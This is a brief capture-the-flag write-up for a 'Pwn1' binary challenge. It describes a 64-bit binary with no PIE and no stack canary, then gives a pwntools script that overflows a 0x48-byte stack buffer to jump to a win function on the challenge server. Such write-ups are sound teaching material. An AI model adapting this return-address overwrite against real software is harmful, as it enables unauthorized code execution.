

## Pwn1

Start by running checksec on the binary.



We have a 64 bit binary.  PIE is not enable and we don't have a stack canary.  View the decompilation in ghidra.


Just a very simple buffer overflow and we even have a win function to jump to.  The stack is 0x48 bytes before the return address.

#### exploit.py
```python
from pwn import *

binary = context.binary = ELF("./pwn1")

if args.REMOTE:
    p = remote('challs.n00bzunit3d.xyz', 35932)
elif args.GDB:
    p = gdb.debug(binary.path)
else:
    p = process(binary.path)

payload = b""
payload += b"A" * 0x48

payload += p64(binary.symbols['win'])

p.sendline(payload)

p.interactive()
```


Success!